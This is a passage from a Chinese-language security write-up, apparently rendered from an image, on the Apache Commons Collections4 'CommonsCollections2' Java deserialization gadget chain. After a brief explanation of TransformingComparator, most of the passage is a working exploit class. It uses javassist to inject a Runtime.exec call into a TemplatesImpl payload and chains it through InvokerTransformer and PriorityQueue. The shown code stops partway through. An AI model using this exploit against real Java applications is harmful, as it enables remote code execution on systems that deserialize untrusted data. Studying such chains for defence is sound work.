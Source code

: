org.apache.commons.collections4.comparators.TransformingComparator (实现了 Comparator 接口)
```java
public int compare(I obj1, I obj2) {
    O value1 = this.transformer.transform(obj1);
    O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}
```

在排序时会先 transform 一下, 再结合喜闻乐见的 InvokeTransfer, 导致 RCE.

最后 exp 如下: 
```java
package demo.rmb122;

import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsCollections2 {
    public static class Placeholder {
    }

    public static void main(String[] args) throws Exception {
        String AbstractTranslet = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(Placeholder.class));
        classPool.insertClassPath(new ClassClassPath(Class.forName(AbstractTranslet)));

        CtClass placeholder = classPool.get(Placeholder.class.getName());
        placeholder.setSuperclass(classPool.get(Class.forName(AbstractTranslet).getName()));
        placeholder.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"touch /dev/shm/rmb122_test1\");"); // 这里 insertBefore 还是 After 都一样
        placeholder.setName("demo.rmb122." + System.currentTimeMillis());

        byte[] bytecode = placeholder.toBytecode();

        Object templates = Class.forName(TemplatesImpl).getConstructor(new Class[]{}).newInstance();
        Field fieldByteCodes = templates.getClass().getDeclaredField("_bytecodes");
        fieldByteCodes.setAccessible(true);
        fieldByteCodes.set(templates, new byte[][]{bytecode});

        Field fieldName = templates.getClass().getDeclaredField("_name");
        fieldName.setAccessible(true);
        fieldName.set(templates, "rmb122");

        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});
        TransformingComparator comparator = new TransformingComparator(invokerTransformer);
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(1);

        Field field = PriorityQueue.class.getDeclaredField("queue");
```